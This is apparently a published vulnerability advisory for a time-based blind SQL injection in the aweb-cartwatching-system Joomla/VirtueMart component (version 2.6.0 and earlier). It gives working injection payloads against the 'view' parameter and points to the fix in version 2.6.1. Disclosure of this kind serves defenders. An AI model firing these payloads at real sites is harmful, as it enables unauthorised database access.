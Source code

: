 # Exploit Title: Sqli Blind Timebased on Joomla + Viertuemart + aweb-cartwatching-system/<= 2.6.0
# Date: 28-12-2016
# Software Link: http://awebsupport.com/products/aweb-cartwatching-system
# Exploit Author: Javi Espejo(qemm)
# Contact: http://twitter.com/javiespejo
# Website: http://raipson.com
# CVE: REQUESTED
# Category: webapps
 
1. Description
   
Any remote user can access to the victim server trough a SQLI Blind Injection on a component of aweb_cartwatching_system and aweb_cart_autosave
This is the code that has the parameters with the parameters not sanitized 

2. Proof of Concept

I can access to the database through queries with the Timebased vector.
I test with a client environment and I found that the paremeter POST view on http://test.xxxxx.com/es/index.php responds to a vector as follows:
 The first request was
 http://test.xxxxx.com/es/index.php

 POST parameters:
 option
 view
 task
 
Then I saw an strange behavior on the web a then I see that the parameter view responds to an easy timebased query
http://test.xxxxx.com/es/index.php?option=com_virtuemart&view=categorysearch%27+%2F+sleep%285%29+%2F+%27&task=smartSearch


Later I found the next payload

option=com_virtuemart&view=categorysearch' RLIKE (SELECT * FROM (SELECT(SLEEP(5)))sgjA) AND 'jHwz'='jHwz&task=smartSearch and it works and I can access to every database on the client system launching other queries.
   
3. Solution:
   
Update to version 2.6.1 from the update center of joomla.
The Joomla vel publish the vulnerability on
Answer from Joomla VEL "We have added it to the VEL here: https://vel.joomla.org/resolved/1897-aweb-cart-watching-system-2-6-0"
http://awebsupport.com/

Regards 

Qemm
